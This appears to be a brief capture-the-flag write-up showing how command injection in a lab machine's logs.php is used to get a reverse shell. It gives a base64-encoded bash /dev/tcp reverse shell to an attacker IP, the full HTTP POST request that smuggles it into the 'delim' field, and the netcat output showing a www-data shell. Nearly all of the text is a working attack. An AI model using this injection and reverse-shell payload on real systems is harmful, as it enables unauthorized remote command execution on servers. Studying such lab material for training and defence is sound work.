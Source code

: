# Rev Shell
Using the command injection in logs.php we can get a reverse shell

Payload creation:
```bash
> echo "bash -c  'bash -i >& /dev/tcp/10.10.14.4/9001  0>&1' " | base64 -w 0
YmFzaCAtYyAgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAxICAwPiYxJyAK
```

Listen on port 9001 using ncat.

Trigger:

```bash
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=29j7ibhsojchid72tknestc125
Upgrade-Insecure-Requests: 1

delim=comma%3b+echo+"YmFzaCAtYyAgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAxICAwPiYxJyAK"+|+base64+-d+|+bash
```

```bash
[patrick@redkite ~]$ nc -lnvp 9001
Connection from 10.10.11.104:59408
bash: cannot set terminal process group (1416): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ 
```

Good to go.

